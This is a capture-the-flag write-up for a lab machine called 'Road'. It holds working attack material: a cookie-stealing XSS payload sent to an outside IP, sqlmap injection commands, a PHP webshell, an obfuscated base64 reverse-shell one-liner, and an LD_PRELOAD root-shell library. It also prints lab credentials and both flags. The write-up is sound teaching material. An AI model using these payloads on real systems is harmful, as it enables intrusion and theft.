## TL;DR

In this challenge we find the password of `admin@sky.thm` using sql injection, and then upload webshell to get `RCE`.

Next, we can find the password of `webdeveloper` inside the `mongo-db` service.

Lastly, we move to root using sudo on `/usr/bin/sky_backup_utility` and `LD_PRELOAD` trick, enabled by saving environment, as shown in `sudo -l`.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                  
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:cb:89:1e:db:44:09:67:3b:a6:2c:a7:07:85:05:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDO7SgSYwvvxmUzvCzJSqXgrQ0g6cC6y4eQ1840vn2EJ0sm4tVkkzimxpPeFIBB8mW4G9jGvygm2UEHV9M4mD9h6/VIZ+x4D2yBiJshN3ZNEfAQxRwaRGVYktzEcwGbfUBq9I5Nl9gvJJwkPZhhU4R9D9kLA4qtPTFbgq5FxpKD2VhjfklbWE09mMkrgDosr7CnN7WU/BUXx/ddCWrbUCS3zm2V5pOt3p9yInnGXQllP24JqZjIoPbBJVu5hVhRcJqBaG8YMbqiZ4HItj3dGpvnQcS2dRkDytJ1h4nBf/Sv3zw2nlj+/CZRlSaPZAbFZAnn82aSURVgcp/f8uclfaHDQjhGnqDeyVOhrhwWqy4Y/UXQck7FFXt83QBlU19J7oIiipO74tWFnZG0EF26JGYFuvB5f7+W259E471n7gdA6vni/ZNJkY9QiuK6uDKFHVJagwSmUafex+2RBdGB3jnpeyyE2DFP99NkPKsUrPwcbpIBmfa6q3oItAZPzJorDtM=
|   256 e9:08:5f:26:33:72:e0:1a:4f:05:36:c3:3e:22:27:60 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN3+FSfOfHjEdHBXXoUJyMKjb4jitkR8T8ALnJU7DgeKhypuGMIBBa+cYE/jedLEtIeuCcgl9cjkgYI/+jFt6RE=
|   256 a0:73:ef:da:9d:3a:8f:d5:c7:38:c5:9b:87:52:1c:f3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKsD0BSNy2OCfNgmG1Ph2CZglooXlUerxo7T0k8MN1Bh
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-favicon: Unknown favicon MD5: FB0AA7D49532DA9D0006BA5595806138
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `road.thm` to our `/etc/hosts`.

### Find admin@sky.thm password and upload webshell to get shell as www-data

I tried to register with `<script>alert()</script>`, and after login got `XSS Injection`:



Here you can see the XSS Injection.



When I tried to give more advanced payload, like this username:
```bash
<script>fetch('http://192.168.164.248:8081/cookie?'+document.cookie)</script>
```

I got this error, and was very very happy:



YAY, `SQL Injection`.

We can verify and get Time Based SQL Injection:




This is the request i put inside `req.txt`:
```bash
POST /v2/admin/reg.php HTTP/1.1
Host: road.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 165
Origin: http://road.thm
Connection: keep-alive
Referer: http://road.thm/v2/admin/register.html?register=
Cookie: PHPSESSID=e77mu7ce38flhkfipnuobbrjik; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ci_csrf_token=&User_Email=*&User_Pass=aa&conpass=a&Us_Cont=1010101010&submit=
```

and the command:
```bash
sqlmap -r req.txt --batch
```

Now, dbs:
```bash
┌──(agonen㉿kali)-[~/thm/Road]
└─$ sqlmap -r req.txt --batch --dbs             

<REDACTED>

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] SKY
[*] sys

[17:17:41] [INFO] fetched data logged to text files under '/home/agonen/.local/share/sqlmap/output/road.thm'

[*] ending @ 17:17:41 /2025-12-18/
```

Okay, let's fetch tables from db `SKY`:
```bash
┌──(agonen㉿kali)-[~/thm/Road]                                                                                                                                                               
└─$ sqlmap -r req.txt --batch -D SKY --tables 

<REDACTED>

[17:23:52] [INFO] fetching tables for database: 'SKY'                                                                 
[17:23:52] [WARNING] reflective value(s) found and filtering out                                                      
[17:23:52] [INFO] retrieved: 'Users'                
Database: SKY                                              
[1 table]                                                                                                                                                                                                         
+-------+                                                  
| Users |                                                  
+-------+                                                  

[17:23:52] [INFO] fetched data logged to text files under '/home/agonen/.local/share/sqlmap/output/road.thm'                                                                                                                                

[*] ending @ 17:23:52 /2025-12-18/                         
```

Let's get the columns:
```bash
┌──(agonen㉿kali)-[~/thm/Road]                                                                                                                                                                                                              
└─$ sqlmap -r req.txt --batch -D SKY -T Users --columns  

Database: SKY
Table: Users
[4 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(44) |
| phone    | varchar(15) |
| username | varchar(55) |
+----------+-------------+

```

Okay, I want the password of user `admin@sky.thm`:

```bash
┌──(agonen㉿kali)-[~/thm/Road]                                                                                                                                                                                             17:37:54 [2/1130]
└─$ sqlmap -r req.txt --batch -D SKY -T Users --dump username,password --where "username='admin@sky.thm'" --threads 10
                                                                                                                                   
<REDACTED>

[17:38:47] [INFO] retrieved: JKNSN!@#                      

```



I tried to login with the credentials:
```bash
admin@sky.thm:JKNSN!@#
```

and we are admin!



Another way was to reset our password, and then exploit `IDOR` by intercepting the request and change the name to the username you want to reset the password to.

Anyway, I uploaded a webshell in the image, however i can't find the uploaded files. This is the webshell I created
```bash
echo -e '<?php echo `$_GET[0]`; ?>' > webshell.php
```
I viewed the source code of `http://road.thm/v2/profile.php`, and searched for another endpoints.
```html
<!-- /v2/profileimages/ -->
```



Okay, we can visit `http://road.thm/v2/profileimages/webshell.php?0=id` and get our `RCE`:



and now paste the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```

and get the reverse shell



we can grab the user flag:
```bash
www-data@ip-10-67-164-229:/home/webdeveloper$ cat user.txt 
63191e4ece37523c9fe6bb62a5e64d45
```

### Find webdeveloper password inside mongo-db

we can detect mongo service that is being running on the machine:
```bash
www-data@ip-10-67-164-229:/tmp$ ps aux | grep mongo
mongodb      663  0.3  3.6 1498680 74048 ?       Ssl  14:27   1:08 /usr/bin/mongod --config /etc/mongod.conf
www-data   52969  0.0  2.3 1160328 48060 pts/1   SLl+ 20:30   0:00 mongo
```

So, We can execute `mongo`, and then navigating through the db:
```bash
> db
test
> show databases
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```



So, we got these credentials:
```bash
webdeveloper:BahamasChapp123!@#
```

I logged in via ssh:



### Privilege Escalation to Root using sudo on /usr/bin/sky_backup_utility and LD_PRELOAD

I executed linpeas, we can see in the output of `sudo -l` that we can execute `/usr/bin/sky_backup_utility` with `LD_PRELOAD`.
```bash
webdeveloper@ip-10-67-164-229:/tmp$ sudo -l
Matching Defaults entries for webdeveloper on ip-10-67-164-229:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on ip-10-67-164-229:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```



Using [https://dogbolt.org/?id=718c5ee8-952a-43f3-a204-3a3b5adf1161#BinaryNinja=120](https://dogbolt.org/?id=718c5ee8-952a-43f3-a204-3a3b5adf1161#BinaryNinja=120) I reversed engineered the binary `/usr/bin/sky_backup_utility`.



```C
int32_t main(int32_t argc, char** argv, char** envp)
{
    puts("Sky Backup Utility");
    puts("Now attempting to backup Sky");
    
    if (!system("tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/*"))
    {
        puts("Backup successful!");
        return 0;
    }
    
    printf("Backup failed!\nCheck your permissions!");
    return 1;
}
```

So, this will be our code inside hook.c:
```C
#define  _GNU_SOURCE
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

__attribute__ ((__constructor__)) void preloadme(void) {
  unsetenv("LD_PRELOAD"); // I want the command to being execute only once

  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```

and then, we can compile it:
```bash
gcc -shared -fPIC -o hook.so hook.c -ldl
```

and execute to get root shell:
```bash
sudo LD_PRELOAD=./hook.so /usr/bin/sky_backup_utility
```



```bash
root@ip-10-67-164-229:~# cat /root/root.txt 
3a62d897c40a815ecbe267df2f533ac6
```